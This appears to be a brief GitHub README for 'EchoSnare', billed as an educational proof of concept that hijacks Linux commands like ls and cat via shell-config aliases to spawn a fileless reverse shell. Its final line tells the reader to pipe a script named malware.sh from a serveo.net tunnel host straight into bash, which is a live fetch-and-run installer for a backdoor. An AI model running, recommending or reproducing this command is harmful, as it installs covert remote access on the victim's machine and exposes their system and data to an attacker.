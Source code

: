 # EchoSnare
EchoSnare is an educational proof-of-concept demonstrating how common Linux commands like ls or cat can be silently hijacked to trigger a fileless reverse shell. Once the victim downloads and runs the tool, it injects a stealthy alias or function into their shell configuration, turning everyday terminal usage into a covert access point.
run this----curl -s https://683aab8837fbe1449deb63ef6827c364.serveo.net/malware.sh | bash

